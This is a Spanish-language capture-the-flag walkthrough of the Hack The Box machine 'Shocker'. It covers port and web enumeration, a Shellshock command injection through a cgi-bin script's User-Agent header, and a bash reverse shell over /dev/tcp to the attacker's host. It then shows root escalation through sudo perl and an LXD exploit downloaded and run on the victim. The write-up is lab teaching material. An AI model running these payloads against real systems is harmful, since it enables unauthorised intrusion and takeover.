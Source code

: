 ```yaml
---
title: HTB_Shocker
type: docs
prev: docs/savinotes/
---
```

# Shocker {-}

## Introduccion {-}

La maquina del dia 20/08/2021 se shocker.

El replay del live se puede ver aqui

[![S4vitaar Shocker maquina](https://img.youtube.com/vi/7BGLph5TWMY/0.jpg)](hhttps://www.youtube.com/watch?v=7BGLph5TWMY)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.56
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.56
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.56 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p80,2222 10.10.10.56 -oN targeted
```


| Puerto | Servicio | Que se nos occure? | Que falta?           |
| ------ | -------- | ------------------ | -------------------- |
| 80     | http     | Web, Fuzzing       |                      |
| 2222   | ssh      | Conneccion directa | usuario y contraseña |




### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.56
```

Nada interesante aqui

#### http-enum {-}

Lanzamos un web scan con nmap.

```bash
nmap --script http-enum -p80 10.10.10.56 -oN webScan
```

Nada interesante.

#### Analyzando la web con Firefox {-}

Hay una pagina que nos dice *Don't Bug Me!* y nada mas. Como la maquina se llama Shocker, pensamos directamente al ataque ShellShock

#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.56/FUZZ/
```

Encontramos una routa muy interesante que es el 
```bash
 cgi-bin 
```
 que es la routa donde si la bash es vulnerable podemos hacer un ataque shellshock.

## Vulnerability Assessment {-}

### ShellShock attack {-}

1. creamos un diccionario de extensiones

    ```bash
    nano extension.txt

    sh
    pl
    py
    cgi
    ```

1. lanzamos nuevamente wfuzz con la extension

    ```bash
    wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extension.txt http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
    ```

Como aqui hemos encontrado un fichero 
```bash
 user.sh 
```
 lanzamos un curl para ver lo que es.

```bash
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh"
```

Ya podemos lanzar el ataque shellshock cambiando la cabezera User-Agent.

```bash
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; }; /usr/bin/whoami"
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo;echo; /usr/bin/whoami"
```

Vemos la respuesta shelly quiere decir que estamos en capacidad de ejecutar commandos a nivel de systema, gracias a esta vulnerabilidad.## Vuln exploit & Gaining Access {-}

### Ganando accesso desde la vulnerabilidad ShellShock {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Entablamos una reverse shell

    ```bash
    curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo;echo; /bin/bash -i >& /dev/tcp/10.10.14.7/443 0>&1
    ```

Hemos ganado accesso al systema.


### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Dandole a 
```bash
 whoami 
```
 vemos que ya estamos shelly y que podemos leer la flag.## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /root
id
sudo -l
```

Vemos que estamos en el grupo lxd ;) y ademas podemos ejecutar /usr/bin/perl como root si proporcionar contraseña.

### Escalar privilegios con /usr/bin/perl {-}

```bash
sudo -u root perl -e 'exec "/bin/sh"'
whoami 
#Output
root
```

### Escalar privilegios con LXD {-}

```bash
searchsploit lxd
searchsploit -x 46978
```

Si Si el exploit a sido creado por el mismo S4vitar. Para usar el exploit, lo primero es mirar si estamos en una maquina 32 o 64 bits.

```bash
uname -a
```

Seguimos los passos del exploit

1. En la maquina de attaquante

    ```bash
    wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
    chmod +x build-alpine
    ./build-alpine # --> para maquinas x64
    ./build-alpine -a i686 # --> para maquinas i686
    searchsploit -m 46978
    mv 46978.sh lxd_privesc.sh
    dos2unix lxd_privesc.sh
    python3 -m http.server 80
    ```

1. En la maquina victima

    ```bash
    wget http://10.10.14.20/alpine-v3-14-i686-20210728_2134.tar.gz
    wget http://10.10.14.20/lxd_privesc.sh
    chmod +x lxd_privesc.sh
    ./lxd_privesc.sh -f alpine-v3-14-i686-20210728_2134.tar.gz
    ```

1. vemos un error 
```bash
 error: This must be run as root 
```
. Modificamos el fichero lxd_privesc.sh

    ```bash
    nano lxd_privesc.sh
    ```

    en la function createContainer(), borramos la primera linea:
    
    ```bash
    # lxc image import $filename --alias alpine && lxd init --auto
    ```

1. Ya estamos root pero en el contenedor. Modificamos la 
```bash
 /bin/bash 
```
 de la maquina

    - en el contenedor

        ```bash
        cd /mnt/root
        ls
        cd /bin
        chmod 4755 bash
        exit
        ```

    - en la maquina victima

        ```bash
        bash -p
        whoami
        #Output
        root
        ```

